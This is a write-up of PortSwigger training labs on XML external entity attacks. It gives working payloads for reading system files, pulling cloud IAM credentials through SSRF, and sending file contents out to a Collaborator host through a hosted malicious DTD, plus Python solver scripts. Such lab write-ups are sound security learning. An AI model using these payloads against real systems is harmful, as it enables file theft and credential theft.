







# Portswigger Writeups

## Lab 1: XXE for Arbitrary File Read

This lab is solved by reading `/etc/passwd`, and it uses a 'Check stock' function that parses XML input:



This is an apprentice lab, so this can be solved using a basic payload.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<stockCheck>
<productId>&test;</productId>
<storeId>1</storeId>
</stockCheck>
```

Here's the script:

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a61005103bb056880e0f82900800075'
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
cookies = {
        'session':'CyubLLWyK9XPlBRj6SewtH3DwNPR9Oeb'
}

headers = {
        'Content-Type':'application/xml'
}
s = requests.Session()

xml = """<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<stockCheck>
<productId>&test;</productId>
<storeId>1</storeId>
</stockCheck>
"""

r = s.post(url + '/product/stock',data=xml, proxies=proxies, verify=False, cookies=cookies, headers=headers)
print(r.text)
```

## Lab 2: XXE for SSRF

To solve lab, access `http://169.254.169.254/` and read some sensitive information from there.

When I used the same payload as above (with the `file:///etc/passwd` replaced with the HTTP URL), I get this:


Appending `/latest` results in a different response:



Setting the URL to `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin` solves the lab.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY test SYSTEM 'http://169.254.169.254/latest/meta-data/iam/security-credentials/admin'>]>
<stockCheck>
<productId>&test;</productId>
<storeId>1</storeId>
</stockCheck>
```

## Lab 3: Out of Band Interaction

This lab requires us send a HTTP request to a Burp Collaborator link. This is a blind XXE example.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY test SYSTEM 'http://BURP.oastify.com'>]>
<stockCheck>
<productId>&test;</productId>
<storeId>1</storeId>
</stockCheck>
```

## Lab 4: Out of Band via XML parameter entities

This lab blocks regular external entities. Trying to use `ENTITY` results in a block:

```
$ python3 lab.py
"Entities are not allowed for security reasons"
```

Regular external entities are custom XML entities whose defined values are loaded from outside of the DTD they are declared in. This means that for this lab, I cannot define my own entities.


As such, I can use the `stockCheck` entity, which is given to me. Next, I need to figure out how NOT to use custom regular external entities. PayloadAllTheThings uses this:

```xml
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///abcxyz/">

    %local_dtd;
]
```

Using a `%` changes it to a parameter entity, which can only be referenced elsewhere within the DTD (hence using `stockCheck`).

Thus, the payload is as such:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % test SYSTEM 'http://vpoo93ane26oxeihvm42tgknbeh55vtk.oastify.com'> %test; ]> 
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

## Lab 5: Blind XXE using malicious external DTD

To solve this lab, read `/etc/hostname`. This lab gives me an Exploit Server, as well as a Submit Feedback function.

The submit feedback function wasn't particularly interesting.

I was unable to read files using the method used in Lab 4. However, I was able to make the lab send a request to Burp Collaborator. Since I was given an Exploit Server, I can try to store a malicious DTD on it.

I want to extract the data from `/etc/hostname`, and then send that to Collaborator. I stored this file on the exploit server:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP/?x=%file;'>">
%eval;
%exfil;
```

`&#x25` represents a `%` in Unicode, and it is used to prevent syntax errors. After storing this on the exploit server, I used this payload to make the application retrieve it and process it.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % test SYSTEM 'https://EXPLOIT/evil.dtd'> %test; ]> 
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

This would trigger a lookup to Collaborator:



Submitting that value solves the lab.

## Lab 6: Error based blind XXE

To solve this lab, use an external DTD to trigger an error message that displays `/etc/passwd`.

The error can be triggered by trying to read a file that does not exist.

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; fail SYSTEM 'file:///idontexist/%file;'>">
%eval;
%fail;
```

This would append the contents of the file behind the error message.



## Lab 7: Exploiting XInclude

This time, the page no longer uses client-side XML to process it:



As such, `XInclude` has to be used to exploit this. `XInclude` is part of the XML specification that allows XML docs to be built from sub-documents. All I have to do is reference the `XInclude` namespace.

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Set the above as the `productId` parameter to solve the lab.

## Lab 8: XXE via Image File Upload

This lab uses the Apache Batik library to process image files. Read `/etc/hostname` to solve lab. The hint is the the SVG image format uses XML.

Here's the payload from PayloadAllTheThings:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Using the above payload, save it as a `.svg` file, and then upload it.



Upon viewing the image, I can see the result:



As usual, here's the script for uploading the image and solving the lab:

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a99005b040cf58d8003f33300ac00be'
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()

r = s.get(url + '/post?postId=5', proxies=proxies, verify=False)
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
csrf_token = match[1]

file = {
    'avatar':('evil.svg', open('exp.svg', 'r'), 'image/svg+xml')
}

form_data = {
    'csrf':csrf_token,
    'postId':'5',
    'comment':'test',
    'name':'test',
    'email':'test@test.com',
    'website':'http://test.com'
}

r = s.post(url + '/post/comment',data=form_data, proxies=proxies, verify=False, files=file)
if 'Your comment has been submitted' not in r.text:
    print('[-] Upload failed')
    sys.exit(1)

print('[+] Upload worked')
r = s.get(url + '/post?postId=5', proxies=proxies, verify=False)
match = re.findall(r'/post/comment/avatars\?filename=(\d.png)', r.text)
if match:
    for i in match:
        print(f'[+] Visit https://{HOST}.web-security-academy.net/post/comment/avatars?filename={i} to get answer')
```

## Lab 9: Repurposing Local DTD

This lab requires us to use the `/usr/share/yelp/dtd/docbookx.dtd` to exploit it, and within that particular DTD is an entity called `ISOamso`.

To solve the lab, firstly, we have to reference the local DTD, and I used a parameter entity: 

```xml
<!DOCTYPE exploit [
<!ENTITY % local SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
]>
```

Next, I have to redefine the `ISOamso` entity, and I took the payload from PayloadAllTheThings:

```xml
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;'>
```

So the final payload is:

```xml
<!DOCTYPE exploit [
<!ENTITY % local SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;'>
%local;
>]
```